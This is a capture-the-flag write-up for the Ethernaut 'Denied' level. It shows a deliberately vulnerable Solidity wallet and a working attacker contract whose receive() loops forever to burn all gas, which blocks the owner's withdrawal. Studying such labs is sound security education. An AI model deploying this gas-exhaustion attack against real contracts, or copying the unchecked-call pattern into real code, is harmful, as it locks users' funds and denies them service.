 ```yaml
---
title: "Denied"
tags: ["Gas Limit Exhaustion"]
reference: https://ethernaut.openzeppelin.com/level/20
---
```


## Description

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

## Solution

### Attack Idea

1. Each transaction has gas limit to avoid infinite-loop.
2. A function call from one contract to another does not create its own transaction, it is a message call as part of the overall transaction.
3. So `partner.call{value: amountToSend}("");` can write malicious code to consume "all" the gas such that the subsequent of calls of `withdraw` function are out of gas to execute.
    - The caller always retains at least 1/64th of the gas in a call
4. Function calls also cause exceptions if the called contract itself throws an exception or goes out of gas.

Ref: https://docs.soliditylang.org/en/latest/control-structures.html#external-function-calls

### Solidity Code

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external; 
}

contract DenyWithdraw {
    address victim;

    function pwn(address _victim) external payable {
        victim = _victim;
        IDenial(victim).setWithdrawPartner(address(this));
        IDenial(victim).withdraw();
    }

    receive() external payable {
        // Consume all gas
        while (true) {}
    }
}
```

## Failed Attempts

1. make `amountToSend` become 0 such that `transfer(0)` is not work because `transfer(0)` is valid.
